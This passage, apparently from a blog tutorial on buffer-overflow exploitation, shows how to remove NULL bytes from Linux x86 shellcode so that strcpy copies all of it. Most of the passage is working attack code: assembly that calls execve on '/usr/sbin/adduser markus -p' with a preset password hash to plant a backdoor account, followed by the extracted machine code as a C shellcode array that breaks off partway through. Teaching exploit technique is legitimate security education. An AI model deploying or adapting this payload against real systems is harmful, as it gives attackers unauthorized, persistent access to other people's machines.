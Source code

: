 When placing the strings, remember that an extra byte is needed to mark the end of each string. In this example, the `#` character is used as a placeholder for the string terminator.

However, when testing this code, you might notice that the C function `strcpy()` does not copy the entire code into the overflow buffer. The reason is straightforward: There are **NULL bytes** present in the code. Since `strcpy()` stops copying as soon as it encounters a `\0`, any subsequent code is ignored. This effectively renders the code unusable.

To solve this problem, **all NULL bytes must be removed**. But because the strings themselves require termination bytes, a different approach must be used. Here, an important principle from Boolean algebra becomes relevant:

$$x \nleftrightarrow x = 0$$

Therefore, a register can be set to zero with a simple XOR operation and then written to the corresponding memory locations. This changes the code as follows:

{% highlight nasm %}
jmp data
start:
	popl %esi             # Base Address der Strings vom Stack holen
	movl %esi,63(%esi)    # Address for name[0] 		
	leal 18(%esi),%eax    # Address for name[1]
	movl %eax,67(%esi)			
	leal 25(%esi),%eax    # Address for name[2]
	movl %eax,71(%esi)		
	leal 28(%esi),%eax    # Address for name[3]
	movl %eax,75(%esi)
	xorl %eax,%eax        # Null the EAX register		
	movb %al,17(%esi)     # Termination of the Strings (one byte each)
	movb %al,24(%esi)
	movb %al,27(%esi)
	movb %al,62(%esi)
	movl %eax,79(%esi)    # NULL-Pointer at end of pointer list
	movb $0xb,%al         # Code of SysCall-table
	movl %esi,%ebx        # Address of name[0]
	leal 63(%esi),%ecx    # Address [A] to ECX (name[])
	leal 79(%esi),%edx    # Address of null pointer to EDX
	int $0x80             # Trigger Interrupt
	xorl %ebx,%ebx	      # Begin of Error Handling
	movl %ebx,%eax
	inc %eax
	int $0x80
data:
	call start            # Put base address of Strings on the Stack
.string \"/usr/sbin/adduser#markus#-p#$1$7ÏvÙLKÏµ$gSUKG6RALzRA8ryROcTsG0#\"
{% endhighlight %} 

## Assembling the program and extracting the machine code
After assembly, the machine code can be read out using the GDB debugger. This should be used next to create an exploit. The size of the code is exactly 128 bytes.
{% highlight C %}
char shellcode[] =
	"\xeb\x3a\x5e\x89\x76\x3f\x8d\x46"
	"\x12\x89\x46\x43\x8d\x46\x19\x89"
	"\x46\x47\x8d\x46\x1c\x89\x46\x4b"
	"\x31\xc0\x88\x46\x11\x88\x46\x18"
	"\x88\x46\x1b\x88\x46\x3e\x89\x46"
	"\x4f\xb0\x0b\x89\xf3\x8d\x4e\x3f"
	"\x8d\x56\x4f\xcd\x80\x31\xdb\x89"
	"\xd8\x40\xcd\x80\xe8\xc1\xff\xff"
	"\xff\x2f\x75\x73\x72\x2f\x73\x62"
	"\x69\x6e\x2f\x61\x64\x64\x75\x73"
	"\x65\x72\x23\x6d\x61\x72\x6b\x75"
	"\x73\x23\x2d\x70\x23\x24\x31\x24"